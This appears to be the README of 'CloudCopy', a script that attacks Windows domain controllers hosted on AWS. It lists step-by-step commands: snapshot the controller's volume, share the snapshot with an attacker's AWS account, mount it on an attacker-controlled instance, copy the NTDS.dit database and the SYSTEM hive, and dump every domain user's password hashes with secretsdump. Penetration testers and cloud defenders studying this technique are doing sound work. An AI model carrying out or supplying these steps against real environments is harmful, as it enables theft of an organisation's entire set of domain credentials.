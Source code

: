 # CloudCopy
This script implements a cloud version of the Shadow Copy attack against domain controllers running in AWS. Any AWS user possessing the EC2:CreateSnapshot permission can steal the hashes of all domain users by creating a snapshot of the Domain Controller mounting it to an instance they control and exporting the NTDS.dit and SYSTEM registry hive file for use with Impacket's secretsdump project.

# CloudCopy Algorithm
1.  Load AWS CLI with Target Creds
2.  Run "Describe-Instances" and show in list to select
3.  Run "Create-Snapshot" on volume from selected instance
4.  Run "modify-snapshot-attribute" on new snapshot to set "createVolumePermission" to attacker AWS Account
5.  Load AWS CLI with Attacker Creds
6.  Run "run-instance" command to create new linux ec2 with our stolen snapshot
7.  Ssh run "sudo mkdir /windows"
8.  Ssh run "sudo mount /dev/xvdf1 /windows/"
9.  Ssh run "sudo cp /windows/Windows/NTDS/ntds.dit /home/ec2-user"
10. Ssh run "sudo cp /windows/Windows/System32/config/SYSTEM /home/ec2-user"
11. Ssh run "sudo chown ec2-user:ec2-user /home/ec2-user/*"
12. SFTP get "/home/ec2-user/SYSTEM ./SYSTEM"
13. SFTP get "/home/ec2-user/ntds.dit ./ntds.dit"
14. locally run "secretsdump.py -system ./SYSTEM -ntds ./ntds.dit local -outputfile secrets #expects secretsdump to be on path
